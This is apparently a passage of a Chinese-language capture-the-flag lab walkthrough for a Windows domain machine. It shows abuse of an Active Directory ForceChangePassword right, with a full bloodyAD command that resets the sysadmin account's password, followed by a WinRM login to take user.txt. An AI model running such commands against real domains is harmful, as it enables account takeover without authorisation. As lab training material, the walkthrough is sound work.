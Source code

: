 ![](./images/image-186.png)

可以看到**alfredo**可以强制修改**sysadmin**的密码。

## ForceChangePassword

使用**bloodyAD**来进行修改密码

```
[root@kali] /home/kali  
❯ bloodyAD --host "192.168.56.114" -d "megachange.nyx" -u "alfredo" -p "Password1" set password SYSADMIN '123456ABC!'                                                                                         ⏎

[+] Password changed successfully!
```

修改之后，可以通过**5985**端口进行登录，拿到**user.txt**

![](./images/image-187.png)

## Root
